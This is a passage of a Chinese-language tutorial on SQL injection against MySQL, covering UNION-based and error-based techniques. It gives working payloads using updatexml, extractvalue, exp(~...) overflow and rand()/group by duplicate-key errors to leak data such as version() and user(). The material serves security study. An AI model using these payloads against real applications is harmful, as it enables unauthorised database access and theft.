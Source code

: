 ## 注入的几大种类
此处注入的分类是根据服务器对我们传的参数不同的响应来进行划分。
### 联合查询注入
适用于有回显位的注入
```mysql
mysql> select * from user where id=1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
|  1 | 2        | 3        |
+----+----------+----------+
2 rows in set (0.00 sec)
```
`union select`
`union all select` 不去重
将1，2，3替换为sql语句即可。具体替换那一个需要看页面回显了哪一位。
### 报错注入
适用于有MySQL报错信息提示的注入。
#### BIGINT等数据类型溢出
按位取反`~`、`!`、`exp()`来溢出报错。

有版本限制，mysql>5.5.53时，则不能返回查询结果。

```mysql
select exp(~(select*from(select user())x));
```

```mysql
select (select(!x-~0)from(select(select user())x)a);
```

报错信息是有长度限制的，在`mysql/my_error.c`中可以看到

#### XPATH语法错误

从mysql5.1.5开始提供两个XML查询和修改的函数，`extractvalue`和`updatexml`。`extractvalue`负责在xml文档中按照xpath语法查询节点内容，`updatexml`则负责修改查询到的内容。

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里。

```mysql
select updatexml(1,concat(0x7e,(select version()),0x7e),1);
```

```mysql
select extractvalue(1,concat(0x7e,(select version()),0x7e));
```

注意报错回显长度有限制，配合字符串操作函数使用。

#### concat()+rand()+group by导致主键重复

```mysql
select count(*) from users group by concat(version(),floor(rand(0)*2));
```

